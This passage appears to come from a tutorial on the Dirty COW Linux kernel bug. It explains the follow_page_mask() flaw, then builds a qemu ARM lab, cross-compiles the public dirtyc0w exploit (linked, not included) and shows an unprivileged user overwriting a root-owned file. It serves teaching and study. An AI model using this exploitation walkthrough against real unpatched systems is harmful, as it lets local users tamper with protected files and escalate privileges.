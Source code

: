 That is because the re-entry of function `follow_page_mask()` just check `(flags & FOLL_WRITE) && !pte_write(pte)` to decide whether or not continue to obtain the page. The `FOLL_WRITE` has been removed so it will return the real page!

## Exploit The Bug

There are many scripts supplied in the offical website that you can use to hijack a vulnerable machine. Here we pick [the classical one](https://github.com/dirtycow/dirtycow.github.io/blob/master/dirtyc0w.c). To emulate an OS, we can use qemu (virtual machine is also doable). In addition, you can use **buildroot** to quickly setup a qemu+Linux+buildroot environment.

### Busybox prepare

Here we try an arm architecture. This [blog](https://www.centennialsoftwaresolutions.com/post/build-the-linux-kernel-and-busybox-for-arm-and-run-them-on-qemu) will help you setup everything you need. like cross-compile toolchain, initramfs....

### Booting Linux

I just show the scripts here, make sure you have everything settle down.

```shell
$ wget -c https://github.com/torvalds/linux/archive/v4.4.tar.gz
$ tar xvf v4.4.tar.gz
$ cd linux-4.4
$ make ARCH=arm CROSS_COMPILE=arm-linux-gnueabi- vexpress_defconfig
$ make ARCH=arm CROSS_COMPILE=arm-linux-gnueabi- all -j4
```

After you get the zImage, and you can start cross-compile the dirtc0w exploit and remember to put it into your initramfs.

```shell
$ CROSS_COMPILE=arm-linux-gnueabi-gcc dirtyc0w.c -o dirtyc0w
$ cp dirtyc0w {YOU_INITRAMFS_DIRECTORY} && cd {YOU_INITRAMFS_DIRECTORY}
$ find . | cpio -H newc -o > {TARGET_INITRAMFS_PATH}
```

Okay, we then use qemu to start booting.

```shell
qemu-system-arm -M vexpress -dtb linux-4.4/arch/arm/boot/dts/vexpress-v2p-ca9.dtb -kernel {ZIMAGE PATH} -initrd {TARGET_INITRAMFS_PATH} -nographic -append "earlyprintk=serial,ttyS0 console=ttyAMA0"
```

After you hanve a Linux shell, just create a file that can only written by root and then `su` to your hacker use.

````shell
$ echo 'aaaaa' > foo
$ chmod 744 foo
$ su hacker
$ echo 'bbb' > foo
sh: can't create foo: Permission denied
$ cat foo
aaaaa
$ ./dirtyc0w foo bbb
.....
^C
$ cat foo
bbbaa
````
